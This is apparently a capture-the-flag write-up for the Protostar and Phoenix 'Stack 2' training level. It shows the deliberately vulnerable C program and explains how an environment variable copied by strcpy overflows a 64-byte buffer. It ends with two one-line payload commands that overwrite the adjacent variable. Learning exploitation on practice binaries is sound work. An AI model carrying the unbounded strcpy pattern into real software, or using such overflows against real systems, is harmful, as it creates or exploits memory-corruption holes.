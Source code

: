 # Protostar and Phoenix -- Stack 2


## Level Description
Stack2 looks at environment variables, and how they can be set.

This level is at /opt/protostar/bin/stack2

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  # 0x0d0a090a for Phoenix
  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```


## Solution
This was again a simple stack overflow exploit. But here instead of user-controlled input getting directly into the `buffer` array, it's first passed into a pointer. 
Since `getenv()` returns a new string allocation containg the value of the environmnt variable, it in itself doesn't introduce a vulnubility. 
The vulunibility is introduced when the returned result is copied into a fixed size array
```C
strcpy(buffer, variable)  <----- Causes the buffer to overflow and write outside allocated region
```
Since the `modified` variable is right down the `buffer` array, the overflow from `buffer` writes into `modified`. Now for the specfic value of `modified`, we already know that x86 is _Little Endian_. So reversing the value in the input will do the trick.


The command I ended up using to create the payload was <ul>
<li><code>GREENIE=`python -c "print 'A'*64 + '\x0a\x0d\x0a\x0d'"` ./stack2 for Protostar</code></li>
<li><code>ExploitEducation=`python3 -c "print('A' * 64 + '\x0d\x0a\x09\x0a')"` ./stack-two for Phoenix</code></li>
</ul>
